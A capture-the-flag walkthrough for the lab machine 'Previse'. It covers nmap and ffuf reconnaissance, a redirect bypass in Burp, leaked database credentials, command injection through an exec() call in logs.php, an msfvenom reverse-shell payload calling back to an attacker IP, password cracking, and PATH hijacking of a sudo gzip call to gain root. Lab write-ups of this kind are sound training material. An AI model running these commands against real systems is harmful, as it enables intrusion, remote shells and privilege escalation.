



# previse

`Nmap` scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u` [`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ) `-e .php,.txt`

```text
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

let's go through these files now.

so, when I do `/accounts.php`, it shows me a 302 redirect that is supposed to be protection mechanism for the website :\).

So, lets open up `Burp` and see if we can turn on the intercept and see if we can change the `302 FOUND` to `200 OK` and remove the Location header


now, we got the following page,


using this page, we are able to create the account as user `admin1`., and once we do that and login, I'm able to look at a zip file that is on the page at `/files.php`, and we got the source code of the website here.


```text
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in `logs.php`, maybe we can inject something here

```text
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

`sudo tcpdump -i tun0 icmp` on the local machine


if you see any response on your machine like below, that mostly means we have code execution


so, after confirming that we have code execution, I've run through couple of payloads to get a `reverse shell` using bash one-liner and `python` as well, but no luck, so I've used the generated payload using `msfvenom`

```text
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using `wget` and mark it as an executable `chmod 777 /tmp/shell` and run it


once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a `SQL` server running on the machine, and if you remember, there is a password that we grabbed before for the `SQL` service


not sure if we'll be able to crack this


there we go, we got it. let's see if we can crack this, meanwhile in `/var/backups` I found some `gz` files, lets have a look at that before we go into cracking \(not much in those `gz` files\)

so, we're able to crack the password using `hashcat`, \(it took quite some time, unusual for a CTF\)



so, we can login into the box as `m4lwhere` user into this box, and its a pretty straight forward stuff after this to get `root`



and if we look closely, we don't see any env reset stuff going on when we run `sudo -l`, so its possible that if we export a `PATH` variable, we might be able to persist it when we run the sudo command.

```text
echo "chmod +s /bin/bash" >> ~/gzip
export PATH=$HOME:$PATH
```

once we do this and run the sudo command, `setuid` is turned ON on our `bash` executable, and we can simply run `/bin/bash -p` to get a root shell, and if you want an full ssh shell, you can put your `id_rsa.pub` into the `/root/.ssh/authorized_keys` and we can login using ssh



